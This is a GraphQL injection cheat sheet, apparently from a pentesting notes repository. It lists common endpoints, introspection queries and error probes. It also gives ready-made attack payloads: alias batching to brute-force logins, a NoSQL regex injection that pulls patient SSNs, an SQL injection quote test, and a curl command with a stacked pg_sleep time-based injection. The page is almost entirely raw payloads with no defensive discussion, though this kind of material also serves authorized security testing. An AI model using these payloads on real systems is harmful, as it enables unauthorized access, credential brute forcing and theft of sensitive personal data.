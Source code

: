 # 📈 graphql injection

## Graphql Injection

### Common GraphQL endpoints

```
/v1/explorer
/v1/graphiql
/graph
/graphql
/graphql/console/
/graphql.php
/graphiql
/graphiql.php
```

### Universal Queries

```
query{__typename}
```

### Introspection

```
query={__schema{types{name,fields{name}}}}
```

```
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

### Identify an injection point

```
example.com/graphql?query={__schema{types{name}}}
example.com/graphiql?query={__schema{types{name}}}
```

### Errors

```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```

### Enumerate Database Schema via Introspection

#### Encoded

```
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

#### Decoded

```
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}

query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}
```

### Querying

```
query={flags{name, value}}

query={hiddenFlags}
```

### Mutations

```
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### Aliases

```
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```

### Query name based batching

```
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```

### Injections

#### NOSQL injection

```
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```

#### SQL injection

```
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

```
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

## References

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
* [HackTricks Book](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
